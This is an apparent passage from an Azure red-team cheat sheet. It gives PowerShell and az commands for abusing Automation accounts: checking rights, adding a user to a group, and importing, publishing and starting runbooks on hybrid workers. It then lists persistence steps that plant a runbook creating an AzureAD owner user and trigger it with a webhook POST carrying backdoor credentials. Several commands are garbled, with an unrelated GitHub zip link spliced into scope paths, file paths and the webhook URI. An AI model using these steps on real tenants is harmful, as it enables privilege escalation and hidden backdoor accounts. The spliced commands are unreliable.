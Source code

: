 ```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group
az ad signed-in-user list-owned-objects

# If the user is not part of an "Automation" group.
# Add him to a custom group , e.g: "Automation Admins"
Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose

# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip<AUTOMATION-ACCOUNT>

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>

# Create a Powershell Runbook
PS C:\Tools> Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```

### Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```
